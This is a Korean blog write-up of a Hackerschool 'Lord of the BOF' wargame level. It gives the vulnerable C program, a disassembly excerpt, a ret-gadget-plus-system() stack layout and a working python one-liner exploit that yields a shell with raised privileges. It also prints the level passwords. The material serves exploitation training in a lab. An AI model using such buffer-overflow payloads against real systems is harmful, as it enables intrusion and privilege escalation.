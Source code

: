 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 LEVEL15 (Giant -> Assassin) : No Stack, No RTL"
date: 2015-11-30 12:03:10
category: wargame
tags:  bof 
---
```


- id = giant
- pw = one step closer

<!-- more -->

## 1. 문제 : assassin.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - assassin
        - no stack, no RTL
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
       if(argc < 2){
                printf("argv error\n");
                exit(0);
       }

    if(argv[1][47] == '\xbf')
    {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer+sfp hunter
        memset(buffer, 0, 44);
}
```

## 2. 공격 준비

### 2.1 공격 방법 고민

BoF 를 위한 return address 설정을 stack (0xbf)과 library (0x40)을 이용할 수 없다면… ROP (Return Oriented Programming)을 이용해야할까 ? Gadget은 어디에서 찾아야 하나 ?

잘 모르겠으니 혹시나 실행 파일 assassin의 assembler을 확인해보자.

### 2.2 assassin()

```
08048470 <main>:
 8048470:       55                      push   %ebp
 8048471:       89 e5                   mov    %esp,%ebp
 8048473:       83 ec 28                sub    $0x28,%esp
 8048476:       83 7d 08 01             cmpl   $0x1,0x8(%ebp) 
 8048477:       ...
 8048515:       e8 7e fe ff ff          call   8048398 <_init+0x90>
 804851a:       83 c4 0c                add    $0xc,%esp
 804851d:       c9                      leave
 804851e:       c3                      ret
 804851f:       90                      nop
```

우리가 현재 필요로한 gadget 은 단순히 stack, library 가 아닌 값으로 jump 한 다음에 다시 stack 으로 돌아오면 되는거다. 즉, LR 주소로 stack, library 을 못 쓰기 때문에 다른쪽으로 한 번 jump 한 다음에 다시 stack 으로 돌아오면 된다. 그렇다면… assassin 프로그램에 있는 ret 으로 jump 한다면 ??? ㅋㅋ

### 2.3 Stack 구성

```
[ Buffer[40] ][ SFR ][ LR ][ ...]
= [ Buffer[44] ][ ret() ][ system() ][ exit() ][ /bin/sh ]

- ret()    : 0x0804851e
- system() : 0x40058ae0
- exit()   : 0x400391e0
- /bin/sh  : 0x400fbff9
```

## 3 Exploit

```bash
$ ./assassin "`python -c 'print "\x90"*44 + "\x1e\x85\x04\x08" + "\xe0\x8a\x05\x40" + "\xe0\x91\x03\x40" + "\xf9\xbf\x0f\x40"'`"   

à@à@ù¿@

bash$ id
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)

bash$ my-pass
euid = 515
pushing me away
```











